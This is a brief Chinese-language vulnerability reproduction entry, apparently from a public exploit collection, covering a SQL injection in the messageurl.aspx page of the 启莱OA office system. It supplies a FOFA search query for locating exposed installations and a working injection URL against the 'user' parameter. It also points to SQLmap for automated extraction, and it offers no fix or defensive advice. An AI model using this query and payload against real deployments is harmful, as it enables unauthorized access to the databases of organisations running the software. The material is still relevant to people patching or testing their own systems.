 # 启莱OA messageurl.aspx SQL注入漏洞

## 漏洞描述

启莱OA messageurl.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
启莱OA
```

## FOFA

```
app="启莱OA"
```

## 漏洞复现

登录页面如下

![qilai-2-1](./images/qilai-2-1.png)

存在SQL注入的文件为 messageurl.aspx

```plain
http://xxx.xxx.xxx.xxx/client/messageurl.aspx?user=' and (select db_name())>0--&pwd=1
```

![qilai-2-2](./images/qilai-2-2.png)

使用SQLmap对参数 user 进行注入

![qilai-2-3](./images/qilai-2-3.png)